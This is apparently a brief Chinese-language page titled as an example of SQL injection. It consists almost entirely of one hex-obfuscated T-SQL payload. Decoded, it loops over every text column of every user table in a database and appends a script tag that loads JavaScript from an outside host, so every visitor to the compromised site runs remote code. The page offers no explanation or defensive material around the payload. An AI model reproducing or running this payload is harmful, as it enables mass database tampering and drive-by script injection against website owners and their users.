

# SQL注入的一个实例
;DECLARE%20@S%20CHAR(4000);SET%20@S=CAST(0x4445434C4152452040542076617263686
17228323535292C404320766172636861722832353529204445434C415245205461626C655F4
37572736F7220435552534F5220464F522073656C65637420612E6E616D652C622E6E616D652
066726F6D207379736F626A6563747320612C737973636F6C756D6E732062207768657265206
12E69643D622E696420616E6420612E78747970653D27752720616E642028622E78747970653
D3939206F7220622E78747970653D3335206F7220622E78747970653D323331206F7220622E7
8747970653D31363729204F50454E205461626C655F437572736F72204645544348204E45585
42046524F4D20205461626C655F437572736F7220494E544F2040542C4043205748494C45284
04046455443485F5354415455533D302920424547494E20657865632827757064617465205B2
72B40542B275D20736574205B272B40432B275D3D727472696D28636F6E76657274287661726
36861722C5B272B40432B275D29292B2727223E3C2F7469746C653E3C7363726970742073726
33D22687474703A2F2F6A732E75736572732E35312E6C612F313938313136322E6A73223E3C2
F7363726970743E3C212D2D272720776865726520272B40432B27206E6F74206C696B6520272
725223E3C2F7469746C653E3C736372697074207372633D22687474703A2F2F6A732E7573657
2732E35312E6C612F313938313136322E6A73223E3C2F7363726970743E3C212D2D272727294
645544348204E4558542046524F4D20205461626C655F437572736F7220494E544F2040542C4
04320454E4420434C4F5345205461626C655F437572736F72204445414C4C4F4341544520546
1626C655F437572736F72%20AS%20CHAR (4000));EXEC(@S)